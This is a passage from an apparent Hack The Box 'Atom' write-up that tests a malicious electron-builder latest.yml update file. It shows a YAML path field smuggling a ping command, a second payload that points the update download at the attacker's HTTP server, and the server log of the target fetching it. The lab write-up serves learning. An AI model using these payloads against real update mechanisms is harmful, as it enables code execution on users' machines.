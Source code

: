 I spent a bit of time experimenting with various formats for the YAML. As always, you can [skip to the working payload](#final-payload).

I tried looking at some [electron-builder docs](https://www.electron.build/auto-update) to see how the URL should be specified.

It seems this method is terribly documented, but googling "latest.yml url" I *eventually* found [this issue](https://github.com/electron-userland/electron-builder/issues/1678) which has an example of an absolute URL.

It's unclear whether this feature was implemented, as the issue was closed without reference to a commit. This [similar issue](https://github.com/electron-userland/electron-builder/issues/1862) has the same.

However, both use a yaml without the `files` section, and no `-` before `url`. This comment suggests `path` can be used instead:

![](/assets/images/blogs/Pasted image 20210422155138.png)

I tried this yaml first to see if the `files` section was the issue, but got no ping.

```yaml
version: 1.0.1
path: heedv1';ping -n 1 10.10.14.167;'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

I tried this instead:

```yaml
version: 1.0.1
path: http://10.10.14.167/heedv1'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

This time I got some hits!

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ sudo python3 -m http.server 80
[sudo] password for mac: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.237 - - [22/Apr/2021 15:58:46] code 404, message File not found
10.10.10.237 - - [22/Apr/2021 15:58:46] "GET /heedv1'Setup1.0.1.exe.blockmap HTTP/1.1" 404 -
10.10.10.237 - - [22/Apr/2021 15:58:46] code 404, message File not found
10.10.10.237 - - [22/Apr/2021 15:58:46] "GET /heedv1'Setup1.0.1.exe.blockmap HTTP/1.1" 404 -
10.10.10.237 - - [22/Apr/2021 15:58:46] "GET /heedv1%27Setup1.0.1.exe HTTP/1.1" 200 -
10.10.10.237 - - [22/Apr/2021 15:58:46] "GET /heedv1%27Setup1.0.1.exe HTTP/1.1" 200 -
10.10.10.237 - - [22/Apr/2021 15:58:46] code 404, message File not found
10.10.10.237 - - [22/Apr/2021 15:58:46] "GET /heedv1'Setup1.0.1.exe.blockmap HTTP/1.1" 404 -
10.10.10.237 - - [22/Apr/2021 15:58:46] "GET /heedv1%27Setup1.0.1.exe HTTP/1.1" 200 -
```

It looks like it's also requesting a [blockmap file](https://github.com/electron-userland/electron-builder/issues/2851). It also looks like all the client folders work, so I'll only upload to one from now on.
